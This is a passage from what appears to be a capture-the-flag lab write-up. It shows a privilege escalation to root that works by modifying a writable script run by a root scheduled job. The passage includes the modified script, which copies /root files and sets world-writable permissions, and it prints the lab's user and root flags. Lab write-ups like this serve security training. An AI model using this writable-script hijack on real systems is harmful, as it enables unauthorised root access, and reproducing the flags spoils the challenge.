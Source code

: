 
## Privilege Escalation — root via writable script

As `lennie`, I inspected the `scripts` directory:

```bash
ls -la /home/lennie/scripts
# found planner.sh (owned by root) and startup_list.txt
```

`planner.sh` content:

```bash
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

I checked `/etc/print.sh` and found it either writable or possible to be overwritten (in the lab it was modified to include commands executed as root). By controlling the content that gets written or by directly modifying `/etc/print.sh` (the lab allowed this step), I caused the root-runner to execute commands that copied `/root/*` to `/home/lennie` and set permissive permissions:

Example of what the root script ended up doing:

```bash
# /etc/print.sh (as root)
#!/bin/bash
echo "Done!"
cp /root/* /home/lennie
chmod 777 /home/lennie/*
```

After the script ran (triggered by whatever scheduler on the box), `/home/lennie/root.txt` appeared and was world-readable:

```bash
cat /home/lennie/root.txt
# THM{f963aaa6a430f210222158ae15c3d76d}
```

---

## Post-exploitation

* Flags collected:

  * `user.txt`: `THM{03ce3d619b80ccbfb3b7fc81e46c0e79}`
  * `root.txt`: `THM{f963aaa6a430f210222158ae15c3d76d}`

* Always follow responsible lab cleanup (see next section).

---

## Cleanup (what I ran on the lab to restore state)

> Only run cleanup on your lab/VM.
